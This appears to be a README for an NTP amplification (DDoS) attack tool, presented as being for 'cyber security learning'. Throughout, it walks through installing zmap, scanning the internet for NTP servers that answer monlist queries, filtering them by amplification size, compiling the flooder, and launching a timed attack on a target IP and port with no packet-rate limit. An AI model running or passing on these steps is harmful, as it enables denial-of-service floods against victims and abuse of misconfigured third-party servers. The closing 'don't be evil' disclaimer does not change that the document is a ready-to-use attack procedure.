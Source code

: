 this is a NTP-AMP script for cyber security learning

operating system：centOS 7

prepare repositorys：Enter the command below

-----------------------------------------------
yum install gcc libcap  libpcap libpcap-devel screen php dstat cmake gmp gmp-devel gengetopt byacc flex git json-c
yum -y install zmap
--------------------------------------------------

Upload ntpchecker and ntp_123_monlist.pkt to your server
Enter the command below to start scanning agent list（it wil take a looong time so pls be patient）:

-------------------------------------------------------------------------------------------------
screen zmap -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt
---------------------------------------------------------------------------------------------------

give ntpchecker 777 permission：

------------------------------
chmod 777 ntpchecker
-----------------------------

Operational inspection：

---------------------------------------------------------------
screen ./ntpchecker monlist_fingerprint.txt step1.txt 1 0 1
-----------------------------------------------------------------

filter list:

---------------------------------------------------------------------------
awk '$2>419{print $1}' step1.txt | sort -n | uniq | sort -R > ntpamp.txt
-----------------------------------------------------------------------------

Compilation and attack:

------------------------------------------------------------------------------
yum install gcc libcap libpcap libpcap-devel 

and

gcc -lpthread ntp.c -lpcap -o ntp 
 -----------------------------------------------------------------------------------

ATTACK:

./ntp ip port list(ntpamp.txt) thread ppslimit(-1=no limit) attacktime(second)

example: ./ntp 127.0.0.1 80 ntpamp.list 1500 -1 600
 
 ok now you're ready to attack
 
 this script is just for cyber attack learning and pls don't be evil
 
